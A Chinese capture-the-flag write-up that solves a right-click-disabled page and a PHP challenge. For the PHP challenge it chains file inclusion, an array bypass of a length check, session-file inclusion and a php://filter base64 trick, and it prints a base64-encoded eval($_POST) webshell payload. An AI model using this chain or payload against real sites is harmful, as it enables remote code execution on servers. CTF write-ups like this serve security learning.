 ## 查源码
猜测用js代码禁用了鼠标右键，chrome插件disable js就好了。

## 超简单的php
考点：

1. php文件包含
2. payload长度限制的绕过

简单的看了下/index.bak.php?action=message.php显然有文件包含漏洞，拿到所有源码。

主要的问题出在msg.php上面。
```php 
<?php
header('content-type:application/json');
session_start();
function safe($msg)
{
    if (strlen($msg) > 17) {
        return "msg is too loooong!";
    } else {
        return preg_replace("/php/", "?", $msg);
    }
}

if (!isset($_SESSION['msg']) & empty($_SESSION['msg'])) $_SESSION['msg'] = array();

if (isset($_POST['msg'])) {

    array_push($_SESSION['msg'], ['msg' => safe($_POST['msg']), 'time' => date('Y-m-d H:i:s', time())]);
    echo json_encode(array(['msg' => safe($_POST['msg']), 'time' => date('Y-m-d H:i:s', time())]));
    exit();
}
if (!empty($_SESSION['msg'])) {
    echo json_encode($_SESSION['msg']);
} else {
    echo "还不快去留言！";
}
```

简单地分析下，safe函数一个是对输入长度做了限制，一个是过滤了php的关键词。然后这题还开了session，并且session可控，并且通过phpinfo告诉了我们session存储在默认位置（/tmp/sess_id）,看到这里很明显是包含session文件。

这里我主要用了两个trick，第一个是数组绕过长度17的限制，第二个就是用php://filter/convert.base64decode/resource=协议读base64内容的方式，从php反序列的字符串中逃逸出我们传入的webshell。

这里需要注意base64解码的时候是4个字节一组的，需要在base64串插入写字符串，使码前后都能被成功解码。

```
123PD9waHAgZWNobyBtZDUoMSk7QGV2YWwoJF9QT1NUWzFdKTs/Pi8v1
```
我这里就是前面填了3个字符，后面跟了一个，如果懒得算，自己fuzz下测也很快。
